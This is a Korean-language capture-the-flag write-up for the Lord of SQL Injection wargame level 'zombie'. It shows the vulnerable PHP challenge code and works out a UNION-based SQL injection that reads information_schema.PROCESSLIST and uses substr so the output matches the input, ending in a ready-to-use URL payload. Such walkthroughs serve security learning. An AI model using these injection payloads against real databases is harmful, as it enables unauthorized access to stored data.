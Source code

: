 ```yaml
---
title : "LOS Lv.31 zombie (풀이 봄)"
categories : [Wargame, rubiya]
tags: [Information_schema processlist, 풀이 봄]
---
```



## zombie
<hr style="border-top: 1px solid;"><br>

```php
query : select pw from prob_zombie where pw=''

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

이것도 역시 테이블 안에 아무 값도 없음.

ouroboros처럼 해줘야 하는데 replace에서 ace가 필터링되어있음.

답지를 보니.. ```information_schema에 processlist```가 있음.

이를 이용하여 풀 수 있음.

<br>

여기 무조건 확인 
: <a href="https://blog.limelee.xyz/entry/LOS-zombie?category=711778" target="_blank">blog.limelee.xyz/entry/LOS-zombie?category=711778</a>  

<br>

로컬 환경에서 테스트를 하였고 내가 입력한 부분은 ```{}```로 표시.

<br>

```php
select id from test.rubiya where id='{' union SELECT info FROM information_schema.PROCESSLIST #}
```

<br>

이렇게 입력하면 결과는 다음처럼 나옴.

<br>

```php
id
select id from test.rubiya where id='' union SELECT info FROM information_schema.PROCESSLIST LIMIT 0, 25
```

<br>

문제의 클리어 조건은 **입력값과 비밀번호 값이 동일**해야 한다는 것.  
  
즉, 우리는 우리가 입력한 ```' union SELECT info FROM information_schema.PROCESSLIST #```
  
이 부분만 출력되도록 해줘야 하므로 substr함수를 이용할 꺼임.  
  
그럼 substr함수가 추가되므로 우리가 입력할 값은 다음과 같음.  

<br>

```php
' union SELECT substr(info,??,??) FROM information_schema.PROCESSLIST #
```

<br>

```php
select id from test.rubiya where id=' -> 길이는 37

' union SELECT substr(info,38,??) FROM information_schema.PROCESSLIST # -> 길이는 71
```

<br>

따라서 입력 값은 다음과 같음.
: ```?pw=' union SELECT substr(info,38,71) FROM information_schema.PROCESSLIST %23```

<br><br>
<hr style="border: 2px solid;">
<br><br>
